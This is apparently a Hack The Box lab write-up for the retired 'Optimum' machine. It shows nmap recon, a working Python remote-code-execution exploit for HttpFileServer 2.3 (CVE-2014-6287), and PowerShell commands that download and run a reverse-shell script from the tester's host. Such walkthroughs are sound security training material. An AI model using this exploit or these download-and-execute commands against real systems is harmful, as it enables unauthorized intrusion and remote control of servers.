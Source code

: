 # Optimum (Retired)



## Recon


### nmap

```bash
(boolean㉿kalibox)[~/htb/optimum-pwnd]$ cat nmap/optimum-full.nmap 
# Nmap 7.91 scan initiated Mon Nov 23 20:52:21 2020 as: nmap -sC -sV -p- -oA nmap/optimum-full 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.030s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 23 20:54:12 2020 -- 1 IP address (1 host up) scanned in 111.17 seconds
```

### Webpage

![image-20210414225421233](/home/boolean/.config/Typora/typora-user-images/image-20210414225421233.png)

HttpFileServer seems to be the only entry point.



## Exploit

A single result is returned from searchsploit [CVE-2014-6287](https://www.exploit-db.com/exploits/39161).

```python
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)

```



```bash
python3 Exploit.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.24//invoke.ps1')"
```

